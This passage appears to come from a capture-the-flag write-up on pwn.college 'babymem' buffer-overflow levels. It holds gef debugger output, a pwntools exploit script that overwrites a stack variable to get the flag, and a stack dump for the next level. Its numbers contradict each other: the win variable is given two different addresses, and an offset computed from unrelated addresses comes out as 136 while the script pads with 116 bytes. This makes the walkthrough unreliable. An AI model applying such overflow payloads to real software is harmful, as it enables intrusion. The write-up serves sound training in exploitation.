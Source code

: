* This block of code decides whether we get the flag or not.
* We can see that the `cmp` instruction is comparing `0x47ba9894` with the value stored in $eax.
* And from the two lines above, we learn that the value in $eax is moved from dereferenced `[rbp-0x88]`.
* Let's check the value of `[rbp-0x88]`:

```
gef➤  x/a $rbp - 0x88
0x7ffc615eeb98: 0x7ffc615eec14
```

* The location of the win variable is `0x7ffc615eec14`.
* So we have all the information we need:
  * [x] Location of buffer: `0x7ffc615eec14`
  * [x] Location of win variable: `0x7ffc615eeba0`
  * [x] Value being compared to win variable: `0x47ba9894`
* Let's find the distance between the buffer and win variable in order to get the length of our payload padding.

```
gef➤  p/d 0x7fff0c8f8e98 - 0x7fff0c8f8e10
$3 = 136
```

* We are all set to craft our payload.

```python
from pwn import *

padding = b'A' * 116
payload = padding + p64(0x47ba9894)

p = process('/challenge/babymem_level2.1')
p.recvuntil('size:')
p.sendline('200')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```



## level 3.0

> Overflow a buffer and smash the stack to obtain the flag!

{% code fullWidth="false" %}
```
            +---------------------------------+-------------------------+--------------------+
            |                  Stack location |            Data (bytes) |      Data (LE int) |
            +---------------------------------+-------------------------+--------------------+
esp ------> | 0x00007ffd2e328c00 (rsp+0x0000) | a0 e4 b2 ce d6 7f 00 00 | 0x00007fd6ceb2e4a0 |
            | 0x00007ffd2e328c08 (rsp+0x0008) | b8 9d 32 2e fd 7f 00 00 | 0x00007ffd2e329db8 |
            | 0x00007ffd2e328c10 (rsp+0x0010) | a8 9d 32 2e fd 7f 00 00 | 0x00007ffd2e329da8 |
            | 0x00007ffd2e328c18 (rsp+0x0018) | dd 75 9d ce 01 00 00 00 | 0x00000001ce9d75dd |
            | 0x00007ffd2e328c20 (rsp+0x0020) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | 
            | 0x00007ffd2e328c28 (rsp+0x0028) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  
            | 0x00007ffd2e328c30 (rsp+0x0030) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | \  
            | 0x00007ffd2e328c38 (rsp+0x0038) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  \ 
	    | 0x00007ffd2e328c40 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007ffd2e328c48 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |---- buffer
	    | 0x00007ffd2e328c50 (rsp+0x0050) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007ffd2e328c58 (rsp+0x0058) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007ffd2e328c60 (rsp+0x0060) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  /
	    | 0x00007ffd2e328c68 (rsp+0x0068) | 00 9c 32 2e fd 7f 00 00 | 0x00007ffd2e329c00 | / 
	    | 0x00007ffd2e328c70 (rsp+0x0070) | d0 11 40 00 00 00 00 00 | 0x00000000004011d0 |
```